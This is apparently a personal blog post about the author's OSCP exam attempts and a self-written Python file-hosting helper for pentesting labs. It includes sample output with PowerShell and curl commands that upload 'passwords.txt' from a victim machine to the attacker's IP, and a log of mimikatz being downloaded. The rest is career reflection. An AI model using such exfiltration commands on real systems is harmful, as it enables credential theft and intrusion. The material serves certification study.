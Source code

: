 ```yaml
---
title: "Writing Tools and Learning"
date: 2025-01-19
---
```


## Intro

When I started my career in security, getting the OSCP certification was one of my first goals. Unfortunately, I failed my first attempt. A bit over four years later, I retook the exam and passed. The journey between attempts was not as linear as I had imagined and it has taken me some time to finally write out some of my thoughts on the process.

Before reflecting, I want to share a simple tool I wrote to help me during the exam. I understand that this is a small, personal, and sporadic blog, but I think of it as a way to look back on my previous lines of thinking. Additionally, if something here helps even just one person on a similar journey, that would be a great accomplishment for me. 

## Transferring Files

Throughout the OSCP curriculum, a recurring scenario is the need to transfer files between machines. This could be for initial foothold payloads, privilege escalation scripts, or exfiltrating documents for analysis (or dumping secrets!). Offsec's learning materials show a few different ways to accomplish this task through SMB, FTP, or HTTP. There are also many other ways to accomplish this task. While reading [a post on The DFIR Report](https://thedfirreport.com/2024/10/28/inside-the-open-directory-of-the-you-dun-threat-group/) describing a threat actor's open directory, I realized how much easier it would be to have an always-on http server to pull tooling from when needed. Also, it is important to avoid fiddling around and learning new tooling during a certification exam when time is a resource and also a source of anxiety.

Like many others, I initially started out using Python's built-in http server module. However, I frequently found the need to upload files from victim machines to the attack machine. I started using [goshs](https://github.com/patrickhener/goshs), (which is an amazing tool and has now been added to the kali repos,) but I wanted an easy way to upload files straight from a command line. (I believe this is possible since goshs has a GUI for uploads but I did not look too deep into this.) Also, after a few months of grinding machines on Vulnhub and Proving Grounds, I had accumulated a long list of scripts and tools for pentesting that became a pain to look through every time I needed something. My idea was to write a  command line tool to search through my folder of tools and spit out a command to run on a victim machine. It is definitely possible that someone has already solved this problem but I figured I should get some scripting exercise in and build something from the ground up. 

# What it does

Github: [hosting](https://github.com/ky2303/hosting)

Since you are usually on Offsec's VPN when doing the labs or exam, the script uses the IP address of `tun0` and the default port (8000) from Python's module. This can be changed with startup arguments. There are four commands to use in the tool: download, logs, search, upload. They all have single letter aliases (d, l, s, u). 

Demo:

```bash
$ python3 hosting.py -p 80
VPN: ON
IP : 192.168.61.128
HTTP server started at http://localhost:80

Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
Welcome to the file search CLI. Type help or ? to list commands.
>> 
```

![search]({{ "../assets/2025-01-19-writing-tools/search.png" | relative_url }})

![download]({{ "../assets/2025-01-19-writing-tools/download.png" | relative_url }})


# Commands

**Logs:** Since the tool runs the HTTP server and CLI modules together, output became a bit messy so I decided to log everything from the server module to a file. This file can be shown by using `logs`. It will display the last 5 lines in the log file unless given an integer as an argument. The log file is deleted when exiting the CLI unless the `-l` argument is set to `True` when starting.

```bash
>> logs
2025-01-19 11:25:23,239 - "GET /mimikatz/x64/mimikatz.exe HTTP/1.1" 200 -
2025-01-19 11:26:42,177 - "GET /mimikatz/x64/mimikatz.exe HTTP/1.1" 200 -
```

**Search:** This function searches the hosted directory for a filename given as an argument. If a match is found, it shows both linux and windows commands to download the file, making it easy to copy/paste commands. This was the main usecase I had in mind for this tool and I use it a lot.


**Upload:** Continuing with the theme of easy copy/pasting, this function displays linux and windows commands to upload files to the folder where this script is run from. The http server class had to be extended a bit to add this functionality, but someone had already solved this problem so I copied [their code](https://gist.github.com/darkr4y/761d7536100d2124f5d0db36d4890109) for this part. I did run into some issues with files that were too large. (See below)

```bash
>> uploads passwords.txt
[*] Win upload command:
powershell -ep bypass -c "(New-Object Net.WebClient).UploadFile('http://192.168.61.128:80/passwords.txt', 'PUT', 'passwords.txt');"
[*] Linux upload commands:
curl -X PUT -T "passwords.txt" "http://192.168.61.128:80/passwords.txt"
```

# Future 

I recently watched a talk given by Tom Hudson that I enjoyed. I first heard of Tom (aka Tomnomnom) while listening to the Critical Thinking Bug Bounty podcast with Justin Gardner (aka rhynorater). In the talk, Tom shares a few great points about writing tools. I think Tom's idea of making simple tools that do one thing well is great and plan to continue iterating with this in mind.

The talk can be found here:

[Confessions of a Toolmaker - Tom Hudson](https://www.youtube.com/watch?v=lFBAo9TKRY8)

While testing and writing the tool, I ended up integrating most of the `download` functionality into the `search` function. As a result, I almost never use the `download` function and will most likely remove it going forward. I also would like to fix the issue with larger files when sending PUT requests. I did not look into this closely so when I came across the problem, I used the `download` function in Evil-WinRM on windows machines or `scp` on linux. 


## Reflections

Back to my thoughts on the certification process. After failing my first exam attempt, I realized that I was way too overconfident . I had crested the initial competence vs confidence peak of the Dunning-Kruger curve.

![dunning_kreuger]({{ "../assets/2025-01-19-writing-tools/dunning-kreuger.png" | relative_url }}){:style="display:block; margin-left:auto; margin-right:auto"}

As I took a step back, I realized how many fundamental concepts I did not fully grasp. I did not give the labs as much time and thought as I should have and I quickly skimmed through the PDF that OffSec gives you. While this approach may have worked in exams in former academic environments, it was inadequate for a practical exam in a simulated environment. Unfortunately, I needed a job so I decided to shelf the idea of getting the OSCP and hammered out some entry-level CompTIA certs to get past the HR filters. 

Fast-forward to mid-2024, I had been comfortably working in a security role for about two years, participated in a few more CTFs, and completed almost every list of OSCP-like machines on Vulnhub that I could find. I decided to get the Learn-One subscription to OffSec which comes with the OSCP curriculum, access to a lot more practice machines, and two exam attempts. I scheduled my exam for September and started studying. 

At the end of August, OffSec announced that they were changing the exam format to an "assumed compromise" scenario, while removing the bonus points for doing labs and creating an "OSCP+" certification that expires every 3 years. This was about three weeks before my scheduled exam date but it would not take effect until November. I thought about what to do for a few days but ultimately decided that since the original certification did not expire and I had already put many hours into doing the labs to get bonus points, it was best to stick to my original plan and take the exam in September. Thankfully, I passed and the bonus points helped. 

I now had the decision on whether I should use my second exam attempt on the wireless pentesting exam (OWSP) or try the OSCP+. Around this time, I realized that the pressure and anxiety that I put on myself to pass the exam had caused some health issues so I decided to take a little break from studying. After about a month of rest, I started doing practice machines again and decided to attempt the OSCP+ right after the holidays. What a terrible idea.

Unfortunately, I did not pass the OSCP+ exam. In the few days after, I was devastated. I constantly went over different enumeration methods and attacks I may have missed in my head. The feeling of failure after my first attempt returned, and I felt that I had crested another peak in another Dunning-Kruger curve. I realized my own curve looked something like this:

![dunning_kreuger]({{ "../assets/2025-01-19-writing-tools/dunning-kreuger-modified.png" | relative_url }}){:style="display:block; margin-left:auto; margin-right:auto"}

(Apoloigies for the quality. Graphic design is not my passion)

After some time and reflection, I figured that I had accomplished the original goal I set for myself when I first started out this journey. Even with the failures, I learned new things -- in security and about myself -- that made the input time valuable. 

In the past couple of years, I have picked up two things that helped me cope with career lows. First, after the Denver Nuggets won their first NBA championship in franchise history in 2023, center Nikola Jokic had one of my favorite recent quotes:

![jokic]({{ "../assets/2025-01-19-writing-tools/jokic.jpg" | relative_url }}){:style="display:block; width:600px; margin-left:auto; margin-right:auto"}

Second, I recently picked up a practice from a podcast I enjoy called "My First Million" with Sam Parr and Shaan Puri. In one episode, Puri talks about a personal Slack channel he has called "Highs and Lows" in which he writes down the most emotional moments while running his businesses. When an extreme event happens, whether good or bad, Puri will write down the event in the channel, overtime creating a log of moments to look back on and see how far you have come. I have started to do this in my own way by writing down these events for my own career (though not in a Slack channel). Doing this has been helpful, and my hope is that in the long-term it will help me smooth out my own modified Dunning-Kruger curve above, balancing emotions with confidence and competence. The last mention of Puri's "Highs and Lows" channel is at the 46:29 mark here: [MFM youtube](https://youtu.be/8yIrBHghAJE?si=XtSmc9IEeMfq-jTA&t=2789)
